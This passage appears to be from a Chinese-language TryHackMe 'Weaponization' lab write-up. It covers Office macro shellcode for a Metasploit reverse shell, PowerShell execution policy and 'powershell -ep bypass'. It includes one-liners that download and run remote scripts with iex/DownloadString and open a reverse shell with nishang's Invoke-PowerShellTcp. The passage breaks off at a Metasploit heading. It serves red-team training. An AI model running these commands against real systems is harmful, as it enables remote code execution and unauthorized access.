 将shellcode复制到macros

导入以注意需要进行一次修改才能完成此操作。输出将在 MS Excel 工作表上工作。因此，将Workbook_Open（）更改为Document_Open（）以使其适用于MS Word文档。

metasploit开启监听，打开该文档，将获得反向shell

## PowerShell （PSH）

红队成员依靠 PowerShell 来执行各种活动，包括初始访问、系统枚举和许多其他活动。让我们从创建一个简单的PowerShell脚本开始，该脚本打印”欢迎来到武器化室！“如下

```powershell
C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess

C:\Users\thm\Desktop>
```

### 执行政策

PowerShell 的执行策略是一种安全选项，用于保护系统免受恶意脚本的运行。默认情况下，出于安全目的，Microsoft 禁用执行 PowerShell 脚本 .ps1。PowerShell 执行策略设置为“Restricted”，这意味着它允许单个命令，但不运行任何脚本。

您可以确定 Windows 的当前 PowerShell 设置，如下所示：

![在这里插入图片描述](https://img-blog.csdnimg.cn/4bfddb423dc14a1c8a724e7ca6dc29e9.png)

我们还可以通过在cmd运行以下命令轻松更改 PowerShell 执行策略：

	Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

![在这里插入图片描述](https://img-blog.csdnimg.cn/bda7b51bdf50498aaa00af63f5fcc29d.png)

### 绕过执行策略

微软提供了禁用此限制的方法。其中一种方法是向 PowerShell 命令提供参数选项，以将其更改为所需的设置。例如，我们可以将其更改为绕过策略，这意味着不会阻止或限制任何内容。这很有用，因为这让我们可以运行自己的PowerShell脚本。

	powershell -ep bypass

### Reverse shell

	powershell -nop -c "iex (New-Object System.Net.WebClient).DownloadString('http://10.14.39.48:8000/reverse_shell.ps1');"

#### nishang

使用[nishang](https://github.com/samratashok/nishang)网络下载脚本并在内存直接加载

	powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]

#### metasploit
